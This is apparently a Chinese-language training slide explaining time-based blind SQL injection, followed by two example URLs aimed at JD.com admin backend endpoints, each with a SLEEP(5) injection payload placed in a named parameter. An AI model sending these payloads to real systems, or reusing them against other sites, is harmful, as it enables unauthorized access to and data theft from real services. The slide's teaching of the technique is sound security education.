

SQL注入——注入类型
5
Time-based blind SQL injection（基于时间延迟注入）
页面不返回错误信息，不输出UNION注入所查出来的泄露的信息。
类似搜索这类请求，布尔注入也无能为力，因为搜索返回空也属于正常的，这时就得采用基于时间的注入了，即判断请求响应的时间。

实例：
购物圈后台管理系统多个接口存在SQL注入漏洞
http://wqadmin.jd.com/shopgroup/source/php/cgi/SaveActiveInfo.php?callback=saveActive&s_active_rule={"i_rule_type":"1"}&i_active_type=5&s_active_name=你印象最深告白送的什么礼物？&start_time=2018-11-16 09:59:00&end_time=2018-11-16 10:00:00&i_business_id=14220632985172864979 AND (SELECT * FROM (SELECT(SLEEP(5)))AnqO)&s_prize_info=[{"from":1,"to":10,"prizeName":"脱单专属礼盒","prizeType":1},{"from":11,"to":20,"prizeName":"珠宝首饰盒","prizeType":1}]&_=1542332814670

拼购管理后台存在SQL注入漏洞：
http://wq.jd.com/pingou_manage/pingou_pop_manage/source/php/cgi/stop_active.php?callback=stopActiveCbk&i_active_id=15283392841025 AND (SELECT * FROM (SELECT(SLEEP(5)))inVN)&spuid=11556077953&_=1528365460089